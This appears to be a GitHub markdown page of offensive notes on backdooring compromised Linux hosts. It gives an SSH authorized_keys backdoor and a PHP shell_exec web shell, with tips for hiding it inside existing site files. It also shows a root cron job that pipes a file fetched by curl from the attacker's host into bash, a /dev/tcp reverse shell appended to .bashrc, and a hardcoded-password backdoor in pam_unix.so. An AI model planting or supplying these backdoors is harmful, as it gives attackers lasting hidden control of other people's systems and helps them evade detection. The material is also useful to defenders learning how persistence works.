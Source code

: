 # Backdoor 

## backdoor using ssh
The ssh backdoor essentially consists of leaving our ssh keys in some user’s home directory. Usually the user would be root as it’s the user with the highest privileges.
- ssh backdoor 
	```
	ssh-keygen
	```
	- Now that we have 2 keys. 1 private key and 1 public key, we can now go to /root/.ssh and leave our public key there. Don't forget to rename the public key to : authorized\_keys
	- give the private key the right permissions using : chmod 600 id\_rsa

## PHP backdoor
you can try creating a php file with any name and putting inside this piece of code

- php backdoor code
	```php
	<?php  
    if (isset($\_REQUEST\['cmd'\])) {  
        echo "<pre>" . shell\_exec($\_REQUEST\['cmd'\]) . "</pre>";  
    }  
	?>
	```
	
**tips**
1\. Try to add this piece of code in already existing php files in /var/www/html. Adding it more towards the middle of files will definitely make our malicious actions a little more secret.

2\. Change the "cmd" parameter to something else... anything actually... just change it to something that isn't that common. "Cmd" is really common and is already really well known in the hacking community.

## cronjob backdoor
this backdoor consist of creating a cronjob!
take a look at your cronjobs file, which is /etc/cronjob
Once you got root access on any host, you can add any scheduled task. You could even just configure a task where every minute a reverse shell is sent to you. Which is exactly what we're going to do.
- crontab script
	```
	* *     * * *   root    curl http://<yourip>:8080/shell | bash
	```
	Notice that we put a "\*" star symbol to everything. This means that our task will run every minute, every hour, every day , etc .

	We first use "curl" to download a file , and then we pipe it to "bash"

	The contents of the "shell" file that we are using are simply :
	```bash
	#!/bin/bash 
	bash -i >& /dev/tcp/ip/port 0>&1
	```
	We would have to run an HTTP server serving our shell.

	You can achieve this by running : "python3 -m http.server 8080"  
	Once our shell gets downloaded, it will be executed by "bash" and we would get a shell!
	Don't forget to listen on your specified port with "nc -nvlp <port>"
	
## .bashrc backdoor
If a user has bash as their login shell, the ".bashrc" file in their home directory is executed when an interactive session is launched.
So If you know any users that log on to their system quite often, you could simply run this command to include your reverse shell into their ".bashrc".
```bash
echo 'bash -i >& /dev/tcp/ip/port 0>&1' >> ~/.bashrc
```
One important thing is to always have your nc listener ready as you don't know when your user will log on.

This attack is very sneaky as nobody really thinks about ever checking their ".bashrc" file.

On the other hand, you can't exactly know if any of the user's will actually login to their system, so you might really wait a long period of time.

## pam unix 
	We can see that we added a new line to our code : "if (strcmp(p, "0xMitsurugi") != 0 )"

Okay, if this code looks confusing to you at first, don't worry!

We'll break it down together!

So first, we have to know what the function "strcmp" does.

This function basically compares 2 strings.

In the screenshot above, we compare the variable "p" and the string "0xMitsurugi".

The variable "p" stands for the user's supplied password. In other words, the password that the user-supplied.

You can also see "!=0" at the end of the statement. This means "if not successful". So, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are NOT the same... the function "unix\_verify\_password" will be used.

But on the other hand, if the variable "p"(user-supplied password) and the string "0xMitsurugi" are the same, the authentication is a success. We mark the success by using "PAM\_SUCCESS;"

So this backdoor essentially consists of adding your own password to "pam\_unix.so"

Since you know the password that you added into the file, you will always be able to authenticate with that password until it's removed from "pam\_unix.so"

So let's do a little recap:

Say a user types the password "password123" and tries to authenticate. We will compare his password(password123) to the string "0xMitsurugi".

If those two strings match, the authentication is successful. But those 2 strings do not match, so the authentication will not be

successful and will rely on the "unix\_verify\_password" function. When using the "unix\_verify\_password" function to authenticate, the function takes

the user's password from "/etc/shadow" and compares it to the user's supplied password. This is how the intended authentication system should work.

However, this technique is called a backdoor as you add your own password that you can always use as long as nobody takes it out of "pam\_unix.so".

This backdoor is really hard to spot, as once again, nobody really thinks about looking into such files.

Since this method is slowly becoming more and more popular, you probably won't be able to do it every time, as everybody would slowly but surely, understand how to protect themselves.

Resource used : [http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html](http://0x90909090.blogspot.com/2016/06/creating-backdoor-in-pam-in-5-line-of.html)

Here is a GitHub repository containing a script automating this process of creating a backdoor: [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)
	

	
	
